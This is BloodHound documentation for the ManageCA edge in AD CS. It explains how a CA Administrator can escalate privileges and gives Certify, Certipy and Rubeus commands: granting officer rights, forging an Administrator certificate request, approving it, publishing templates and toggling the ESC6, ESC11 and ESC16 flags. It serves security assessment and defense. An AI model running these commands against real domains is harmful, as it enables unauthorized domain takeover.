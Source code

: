 ```yaml
---
title: ManageCA
description: The principal has the "Manage CA", also known as "CA Administrator", permission on the Enterprise CA.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This permission allows the principal to configure the CA to allow subject alternate names, publish certificate templates, grant "Manage Certificates", grant enrollment rights, change certain CA flags, and more.

CA Administrators can perform the following actions that may enable an ADCS escalation:

1. Grant CA Officer (ManageCertificates) and approve a denied certificate request
2. Publish a certificate template (e.g. one that enables an ESC1 condition)
3. Grant Enroll on the enterprise CA
4. Enable the ESC6 CA flag `EDITF_ATTRIBUTESUBJECTALTNAME2`
5. Disable the ESC11 enforcement flag `IF_ENFORCEENCRYPTICERTREQUEST` (weakens RPC enrollment security; enables relay)
6. Disable the security extension on the enterprise CA (ESC16)
7. Abuse a CRL Distribution Point (CDP) to coerce and relay the CA server
8. Abuse a CDP to obtain RCE on the CA server (e.g., via web shell)

## Abuse Info

This relationship alone is not automatically a privilege escalation; however, it frequently enables one of several ADCS escalation paths when combined with template / CA configuration weaknesses.


### 1. Grant CA Officer and Approve a Denied Request

Role separation (when enabled) prevents a single principal from holding both ManageCA and ManageCertificates, but this configuration is rare.

**Windows**

Grant the CA Officer (ManageCertificates) role with Certify (v2.0):
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --officer S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-12345
```
Request an ESC1 (or other high-value) certificate you don't have enrollment rights for:
```cmd
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template CustomUser --upn Administrator --sid S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-500
```
Approve the denied certificate request by ID:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --issue-id 1337
```
Download the certificate (captures private key in Base64 PFX):
```cmd
Certify.exe request-download --ca ca01.corp.local\CORP-CA01-CA --id 1337 --private-key <Base64PrivateKey>
```
Authenticate using the certificate (example with Rubeus):
```cmd
Rubeus.exe asktgt /user:Administrator /certificate:<Base64PFX> /ptt
```

**Linux**
Grant CA Officer (ManageCertificates) role:
```bash
certipy ca -ca 'corp-DC-CA' -add-officer john -username john@corp.local -password 'Passw0rd'
```
Issue (approve) a previously denied request:
```bash
certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password 'Passw0rd'
```
Retrieve the certificate:
```bash
certipy req -username john@corp.local -password 'Passw0rd' -ca corp-DC-CA -target ca.corp.local -retrieve 785
```

### 2. Publish a Certificate Template

**Windows**

Publish/unpublish a template (e.g. enabling ESC1):
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --template MyTemplate
```

**Linux**

Publish a template:
```bash
certipy ca -ca 'corp-DC-CA' -enable-template TemplateCN -username john@corp.local -password 'Passw0rd'
```

See the ADCS ESC1 abuse documentation for subsequent exploitation steps: [ADCSESC1](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/adcs-esc1)

### 3. Grant Enroll on Enterprise CA

**Windows**

Grant or revoke CA enrollment rights (required for certificate issuance):

```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --enroll S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-12345
```

### 4. Enable ESC6 Flag `EDITF_ATTRIBUTESUBJECTALTNAME2`
**Windows**

Toggle the flag:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --esc6
```
Restart of the CA service (requires local admin) is needed for the change to apply.
See the ADCS ESC6 abuse documentation for subsequent exploitation steps: [ADCSESC6a](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/adcs-esc6a)

### 5. Disable ESC11 Flag `IF_ENFORCEENCRYPTICERTREQUEST`
**Windows**

Toggle the flag:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --esc11-req
```
Restart of the CA service required.

### 6. Disable Security Extension (ESC16)
**Windows**

Set CA settings for ESC16:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --esc16
```
Restart of the CA service required.

### 7 & 8. Abuse CDP for Coercion / RCE

Techniques to coerce & relay or achieve RCE via CDP manipulation are described here: [AD CS: from ManageCA to RCE](https://www.tarlogic.com/blog/ad-cs-manageca-rce/)


## Opsec Considerations

Abusing these capabilities commonly results in certificate issuance; issued certificates (and sometimes pending requests) leave artifacts on the CA host. Enabling/disabling flags or publishing templates may generate observable administrative events and typically requires a CA service restart for certain changes (ESC6, ESC11, ESC16) to take effect.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [T1649: Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)

### Abuse and Opsec references

* [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [Certify wiki - Escalation Techniques - ManageCA](https://github.com/GhostPack/Certify/wiki/4-%E2%80%90-Escalation-Techniques#manageca)
* [ESC7: Dangerous Permissions on CA (Certipy wiki)](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc7-dangerous-permissions-on-ca)
* [AD CS: from ManageCA to RCE](https://www.tarlogic.com/blog/ad-cs-manageca-rce/)

